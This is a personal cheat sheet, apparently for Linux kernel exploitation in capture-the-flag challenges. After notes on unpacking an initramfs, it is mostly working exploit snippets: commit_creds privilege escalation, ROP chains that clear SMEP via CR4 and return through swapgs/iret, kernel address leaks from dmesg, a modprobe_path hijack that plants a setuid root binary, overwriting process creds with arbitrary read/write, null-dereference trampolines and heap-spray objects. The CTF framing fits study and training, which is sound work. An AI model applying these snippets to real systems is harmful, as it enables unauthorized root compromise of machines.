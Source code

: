 # general setup
## decompress filesystem
cp ../core.cpio core.cpio.gz #  copy the gzip file into the folder and change the suffix 

gunzip ./core.cpio.gz 

cpio -idm < ./core.cpio
# if file system is already .gz with file type gzip
gzip -cd ../initramfs.cpio.gz | cpio -imd --quiet

#for a ext2/3/4 filesystem
mount it on the host while qemu is off, make changes, unmount then boot qemu.

mount -o loop,offset=offset /path/to/disk_image /mnt/mount_point

https://access.redhat.com/solutions/24029

# gencpio.sh
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/fs/gen_cpio.sh

#attach.sh
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/attach.sh

#compile.sh
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/fs/compile.sh

#cmd
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/cmd

#include
https://github.com/AravGarg/kernel-hacking/blob/master/ctf-challs/secconctf2020-kstack/fs/exploit.c

# general tips
### setsid to 0 to get root->
to access /sys/module/name_of_module/sections/.text for address of .text section of module
/proc/kallsyms for all symbols.
change uid to 0 in /etc/passwd
## use cpu kvm64 to allow smep,smap
## Use extract-vmlinux script in linux-headers to extract vmlinux from bzImage
/usr/src/linux-headers-$(uname -r)/scripts/extract-vmlinux bzImage > vmlinux
## cat /sys/module/name_of_module/sections/.text->address of .text sectiion of loaded module.
## load debug info:add-symbol-file /path/to/module 0xd081d000 \  #  .text
 		-s .data 0xd08232c0 \
		-s .bss  0xd0823e20
## open the dev file created in /dev or /proc or /sys to interact with the kernel module.
## if you obtain major number with register_chrdev(), you need to manually make the device file.
## proc_create automatically creates the device file in /proc
char *args[]={"/bin/sh",NULL}; execve("/bin/sh",args,NULL) is needed to spqwn shell.
To define kernel functions, first create a typedef with: ret_type(typedefname)(args) and then define with function with typedefname addr.Example:
typedef unsigned long __attribute__((regparm(3)))(*commit_creds_func)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3)))(*prepare_kernel_cred_func)(unsigned long cred);
commit_creds_func commit_creds = (commit_creds_func) 0xffffffff8107ab70;
prepare_kernel_cred_func prepare_kernel_cred = (prepare_kernel_cred_func) 0xffffffff8107af00;
void privesc(){
	commit_creds(prepare_kernel_cred(0));
}
##code snippets
#save_state
unsigned long user_cs, user_ss, user_rflags;
unsigned long user_cs,user_ss,user_rflags,user_rsp;
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
	"movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags), "=r"(user_rsp)
        :
        : "memory");
}
#ropchains
#x64 and x86(change r to e)
unsinged long ropchain[]={poprdi,0x6f0,native_write_cr4,privesc,swapgs,iret,getshell,user_cs,user_rflags,user_rsp,user_ss};
stack layout while returning: r_rip;user_cs;user_rflags;user_rsp;user_ss;
#x86
        unsigned int ropchain[]={filler,filler,filler,filler,filler,filler,filler,filler,filler,filler,
                                POPEAX,DESIRED_CR4_VALUE,NATIVE_WRITE_CR4,
                                privesc,
                                POPECX,fakestack+0x2000,
                                POPEDX,get_shell,
                                SYSEXIT};

#leaks in kernel:
        system("dmesg > leak.txt");
        int lfd=Open("leak.txt",O_RDWR);
        lseek(lfd,-LEN,SEEK_END);
        char leaktxt[LEN];
        read(lfd,leaktxt,LEN);
        close(lfd);
        char *leaksbuf=strstr(leaktxt,"Appropriate String");
        if(leaksbuf==NULL){
                perror("flag ptr not found");
                exit(EXIT_FAILURE);
        }
        flagptr=strtoul(leaksbuf+n,NULL,16);
#create new thread:
        pthread_t t1;
        pthread_create(&t1,NULL,startfunc,&arg);
#wait for thread to terminate:
	pthread_join(t1,NULL);
#create new child process that behaves like a thread:
	pid_t pid=clone(startfunc,fakestack+0xf000,CLONE_VM|CLONE_FILES|SIGCHLD,&arg);
#wait for child process to terminate:
	wait(NULL);
#check rootme reentrant-code for race conditions example

void set_affinity(int which_cpu)
{
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(which_cpu, &cpu_set);
    if (sched_setaffinity(0, sizeof(cpu_set), &cpu_set) != 0)
    {
        perror("sched_setaffinity()");
        exit(EXIT_FAILURE);
    }
}
call it right after save_state();
# trigger mod_probe with: (before this overwrite modprobe_path with "/home/user/p")
#check SLUB off-by-1 for shell with modprobe_path hijack
void modprobe_trigger(){
        system("echo -ne '#!/bin/sh\n/bin/chown root:root /mnt/share/exploit\n/bin/chmod u+s /mnt/share/exploit\nchmod g+s /mnt/share/exploit'>/mnt/share/p")
        system("chmod +x /mnt/share/p");
        system("echo -ne '\\xff\\xff\\xff' > /mnt/share/trig");
        system("chmod +x /mnt/share/trig");
        system("/mnt/share/trig 2>/dev/null");
        system("/mnt/share/exploit");
        getchar();
}
at start of main:
        setuid(0);
        if(!getuid()){
                puts("[+] Here's your r00t shell!");
                system("/bin/sh");
                return 0;
        }


#overwrite current process creds with arw:
#1https://devcraft.io/2019/01/22/1118daysober-insomnihack-teaser-2019.html
#2root-me: SLUB off-by-one writeup
        uint64_t init_task = kernel_base_address + OFFSET_INIT_TASK;
        uint64_t task = 0;
        uint64_t ptask = init_task;
        while (task != init_task) {
                task = read64(ptask + OFFSET_TASKS) - OFFSET_TASKS;
                ptask = task;
                int pid = read64(task + OFFSET_PID);
                if (pid != getpid())
                        continue;
 
                puts("found current task!");
                long cred = read64(task + OFFSET_CRED);
 
                for (int i = 0; i < 4; i++)
                    write64(cred + i * 8, 0);
 
                break;
        }
#nullptr deference
char *addr=(char *)mmap(NULL,0x3000,PROT_EXEC|PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,0,0); 
#for x64:
memset(addr,0,0x3000);
addr[0]='\xff';
addr[1]='\x25';
*(unsigned long *)&addr[2]=0;
*(unsigned long *)&addr[6]=(unsigned long)&privesc;
#for x86:
char shellcode[]="\xFF\x25\x06\x00\x00\x00";
memcpy(mem,shellcode,6);
*(int *)(mem+6)=&privesc;
#check cr4 value by getting a kernel panic with eip=0x41414141 and then get the desired value accordingly
#kmalloc-32 spray:open("/proc/self/stat",O_RDONLY)

#instead of returing to user-space in ropchains, use raj's technique, check exploit.c for kstack from secconctf2020; (Basically chmod the binary after root privs ad then call msleep, in the mean time, run another thread that executes the binary.)
#kmalloc-1024 tty_struct open("/dev/ptmx")
#kmalloc-128 cred_struct fork()
